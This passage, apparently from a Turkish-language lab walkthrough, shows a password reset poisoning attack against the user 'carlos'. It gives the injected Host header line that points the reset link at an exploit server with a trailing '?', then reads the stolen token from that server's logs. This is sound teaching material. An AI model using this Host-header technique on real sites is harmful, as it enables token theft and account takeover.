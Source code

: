 Daha sonra `carlos` kullanıcısı için parola sıfırlama isteği oluşturuyoruz. 

![Untitled](0x13-ada5ae96539943db9d14955c71e3b77c/Untitled-7.png)

Repeater aracılığıyla mail adresimizi aşağıdaki gibi carlos olacak şekilde ayarlıyoruz. Host alanına da exploit server için verilen domain’i yazıyoruz. Bu kısımda en önemli bilgi Host alanında verdiğimiz değerin sonuna `?`  koymamızdır. Bunun sebebi ise kalan kısmın query string olarak değerlendirilmesini ve request’in iletilmesiyle ilgili bir sorun yaşanmamasını sağlamaktır. 

```jsx
Host: exploit-0a7200fe046e74d981a72e1201f800aa.exploit-server.net/exploit?
```

![Untitled](0x13-ada5ae96539943db9d14955c71e3b77c/Untitled-8.png)

Exploit server log’larını incelediğimizde token’ın elde edildiğini görebiliyoruz bu şekilde;

![Untitled](0x13-ada5ae96539943db9d14955c71e3b77c/Untitled-9.png)
